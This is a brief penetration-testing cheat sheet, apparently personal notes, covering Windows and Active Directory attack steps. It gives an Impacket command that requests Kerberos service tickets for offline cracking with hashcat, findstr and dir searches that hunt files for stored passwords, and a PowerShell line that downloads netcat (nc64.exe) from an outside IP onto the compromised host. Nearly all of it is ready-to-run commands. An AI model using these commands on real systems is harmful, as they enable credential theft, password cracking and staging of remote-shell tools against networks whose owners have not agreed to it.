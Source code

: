 
# Kerberoasting

Get SPN's (servicies) from DC. Get TGS of the servicies

> Impacket
```
GetUserSPNs.py $domain/$user:#password -dc-ip $ip_addres_of_dc -request
```

After that use hashcat to crack service password (-m 13100)

# Enumeration
## Basics

```
whoami 
systeminfo 
net users 
net localgroups
net user user1 - more info about user
wmic qfe get Caption,Description,HotFixID,InstalledOn - gather how well system is patched
```

## Look for open credentials

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

# Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

## File download
```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe')
```
